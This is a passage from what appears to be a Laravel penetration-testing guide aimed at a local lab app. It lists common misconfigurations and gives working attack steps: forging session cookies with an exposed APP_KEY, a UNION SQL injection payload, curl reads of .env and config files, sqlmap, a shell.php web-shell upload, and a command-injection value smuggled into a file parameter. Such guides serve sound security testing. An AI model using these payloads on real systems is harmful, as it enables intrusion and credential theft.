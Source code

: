 ### Forge Cookies/Sessions
```php
// With exposed APP_KEY
$payload = 'a:1:{s:6:"user_id";i:1;}';
$cookie = encrypt($payload);
// Set laravel_session cookie
```

### Database Extraction
```php
// Via SQL injection
' UNION SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database()--

// Via Telescope
http://localhost:8094/telescope/queries
```

## Common Misconfigurations

1. **Debug mode in production** (`APP_DEBUG=true`)
2. **Weak APP_KEY** (default or exposed)
3. **Directory listing enabled**
4. **Git repository exposed** (`.git` folder)
5. **Composer files exposed** (`composer.json`, `composer.lock`)
6. **No CSRF on API routes**
7. **Permissive CORS** (`Access-Control-Allow-Origin: *`)

## Testing Tools

### Automated Scanning
```bash
# Laravel specific scanner
python3 laravelN00b.py -u http://localhost:8094

# Check common files
curl http://localhost:8094/.env
curl http://localhost:8094/config/database.php
curl http://localhost:8094/storage/logs/laravel.log

# SQL injection with sqlmap
sqlmap -u "http://localhost:8094/api/users?search=test" \
  --cookie="laravel_session=..." --batch
```

### Manual Testing
```bash
# Check debug information
curl http://localhost:8094/_ignition/health-check

# Test file upload
curl -F "file=@shell.php" http://localhost:8094/upload

# Command injection
curl "http://localhost:8094/export?file=test;id;.csv"
```
